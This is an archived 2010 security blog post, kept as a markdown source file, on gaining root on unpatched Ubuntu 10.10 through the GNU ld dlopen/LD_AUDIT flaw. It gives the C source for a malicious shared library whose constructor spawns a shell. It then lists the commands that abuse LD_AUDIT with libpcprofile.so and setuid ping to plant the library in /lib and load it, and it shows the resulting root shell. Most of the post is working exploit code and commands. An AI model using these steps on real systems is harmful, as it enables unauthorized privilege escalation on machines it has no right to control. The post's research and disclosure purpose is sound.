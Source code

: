 ```yaml
---
layout: post
title: Escalation via a library upload and the GNU ld dlopen vulnerability
date: '2010-11-08T22:16:00.010+01:00'
author: Xavier Garcia
tags:
- escalation
- ld_audit
- library upload
modified_time: '2010-11-09T11:49:38.745+01:00'
blogger_id: tag:blogger.com,1999:blog-8534555958859253862.post-5697730068506278006
blogger_orig_url: http://www.shellguardians.com/2010/11/escalation-with-library-upload-gnu-ld.html
---
```

In my previous [post](http://www.shellguardians.com/2010/11/privilege-escalation-with-upstart-and.html) I was trying to find ways to gain root shell by using the [dlopen vulnerability](http://www.shellguardians.com/2010/10/gnu-ld-dlopen-privilege-escalation.html), but I could not find something interesting because I was looking at the wrong place.  
  
At this point, we have two facts:  

*   I can create world writeable files as root
*   I can load libraries that are not meant to be used by a setuid program

I was looking for ways to subvert services to gain root, when the answer was right there in the advisory.  
  
By having the ability to upload my own evil library to the host and then execute it as described in the PoC, I can gain a root shell easily. But, since I can only load a library if it is located in the path defined in /etc/ld.so.conf , I have to find a way to copy my library to a valid directory, that is going to be owned by root.  
  
Well, the solution to this problem can be found by making use of the vulnerability to create a world writeable file in the path (i.e. /lib) and then overwrite it with the contents of the library.  
  
Once the library is loaded, we only need to make use of the vulnerability again to get a root shell and then secure our access to the system.  
  
The library is really simple. It only defines a constructor that is executed by the setuid program.  
  
```c
#include <errno.h>  
#include <unistd.h>  
  
static void  
__attribute__ ((constructor))  
install (void)  
{  
  execl("/bin/sh", "/bin/sh", (char *) 0);  
}
```

  
At this point, we only have to compile the library and follow the steps explained before  
  
  
```bash
umask 0  
gcc -c -fPIC evil.c -o evil.o  
gcc -shared -Wl,-soname,libevil.so.1 -o libevil.so evil.o  
LD_AUDIT="libpcprofile.so" PCPROFILE_OUTPUT="/lib/libevil.so" ping  
cat ./libevil.so > /lib/libevil.so  
LD_AUDIT="libevil.so" ping
```

  
As a result,  we have root shell  
  
```bash
user@host:~/$ sh run.sh  
ERROR: ld.so: object 'libpcprofile.so' cannot be loaded as audit interface: undefined symbol: la_version; ignored.  
Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]  
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]  
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]  
            [-T tstamp-options] [-Q tos] [hop1 ...] destination  
# whoami  
root  
#
```

  
Note: this attack has been tested in an unpatched  Ubuntu 10.10
